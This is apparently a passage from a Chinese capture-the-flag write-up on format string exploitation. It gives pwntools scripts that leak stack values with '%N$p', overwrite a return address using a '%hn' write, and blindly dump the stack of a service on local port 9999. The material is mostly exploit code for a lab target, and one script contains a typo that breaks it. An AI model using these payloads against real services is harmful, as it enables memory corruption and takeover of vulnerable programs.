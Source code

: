 ```plain
p.sendline('%6$p')
p.recvuntil(">")

p.sendline("1")
p.recvuntil('\n')
tmp=p.recvuntil('\n')


ret_addr=int(tmp.decode(),16)-0x38
#leak('ret_addr',ret_addr)

p.sendline('2')
p.recv()
p.sendline(p64(ret_addr))
p.recv()
p.sendline('%2218d%8$hn')

p.recv()
p.sendline('1')
p.recv()

p.interactive()
```

[![](assets/1701612281-95e35e3904f4eff623ad5fd1782a959e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224018-0450253e-2579-1.png)

#### fmstr5

##### 盲打泄露栈

部署好环境之后，在自己本地9999端口起环境，尝试直接读取地址，

[![](assets/1701612281-a99d4b917b52313233cebcbfbbd8211e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224029-0ab558f4-2579-1.png)

显然是存在格式化字符串漏洞的，直接写一个循环

```plain
from pwn import *
context.log_level = 'error'

def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print(p64(int(data.deocde(), 16)))
    sh.close()
i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1
```
